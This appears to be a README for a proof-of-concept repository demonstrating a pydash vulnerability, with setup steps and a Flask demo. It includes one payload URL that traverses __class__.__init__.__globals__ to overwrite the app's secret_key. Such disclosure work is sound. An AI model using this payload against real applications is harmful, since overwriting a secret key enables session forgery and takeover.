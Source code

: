 
# Instructions for pydash 5.1.2 and flask PoC

**Prerequisites:** python3.x, pip

## Setup vulnerable python package

* **Create a python virtualenv if you don't want to taint your python installation with vulnerable packages, for example:**
    1. python3 -m venv env
    2. source /env/bin/activate
    3. pip install -r requirements.txt 

## pydash 5.1.2 PoC

* **Run the proof of concept**
    1. python3 pydash_poc_5.1.2.py

## flask PoC

* **Run flask proof of concept**
    1. flask --debug --app flask_poc.py run
    2. Open browser and enter following url: <http://127.0.0.1:5000/?path=__class__.__init__.__globals__.app.secret_key&val='1337'>
    3. result will be printed in the terminal window running the flask server

## Latest pydash Poc

* **Install latest pydash release**
    1. pip install pydash
* **Run the PoC**
    1. python3 pydash_poc_latest.py
